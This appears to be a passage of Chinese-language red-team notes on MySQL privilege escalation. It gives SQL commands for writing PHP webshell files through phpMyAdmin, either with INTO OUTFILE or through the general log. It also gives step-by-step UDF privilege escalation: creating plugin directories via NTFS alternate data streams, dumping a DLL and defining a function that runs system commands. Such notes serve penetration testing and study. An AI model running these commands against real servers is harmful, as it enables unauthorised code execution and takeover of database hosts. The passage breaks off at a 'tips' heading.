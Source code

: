 
## mysql
**提权**
- **文章**
    - [Windows下三种mysql提权剖析](https://xz.aliyun.com/t/2719)

- **通过 phpmyadmin 来 getshell**
    - 确认绝对路径

        利用 log 变量,猜绝对路径

        ![image](../../../../assets/img/安全/笔记/RedTeam/业务软件渗透笔记/1.png)

        或者直接查询 `select @@basedir;`

        直接 SQL 写文件
        `select '<?php phpinfo(); ?>' INTO OUTFILE 'C:/phpStudy/PHPTutorial/WWW/a.php';`
        如果 file_priv 为 null,那么是写不了的,可以尝试使用日志写马
        ```sql
        set global general_log='on';
        set global general_log_file='C:/phpStudy/PHPTutorial/WWW/a.php';
        select '<?php phpinfo(); ?>';
        set global general_log=off;
        ```

- **UDF 提权**
    - 文章
        - [Command execution with a MySQL UDF](http://bernardodamele.blogspot.com/2009/01/command-execution-with-mysql-udf.html)

    - POC | Payload | exp
        - [mysqludf/lib_mysqludf_sys](https://github.com/mysqludf/lib_mysqludf_sys)

    - 手工
        ```sql
        select @@basedir;  # 查看 mysql 安装目录
        select 'It is dll' into dumpfile 'C:\..lib::';  # 利用 NTFS ADS 创建 lib 目录
        select 'It is dll' into dumpfile 'C:\..lib\plugin::';  # 利用NTFS ADS 创建 plugin 目录
        select 0xUDFcode into dumpfile 'C:\phpstudy\MySQL\lib\plugin\mstlab.dll';  # 导出 udfcode,注意修改 udfcode
        create function cmdshell returns string soname 'mstlab.dll';   #用 udf 创建 cmd 函数,shell,sys_exec,sys_eval
        select shell('cmd','net user');     # 执行 cmd 命令
        show variables like '%plugin%';     # 查看 plugin 路径
        ```

        小技巧:
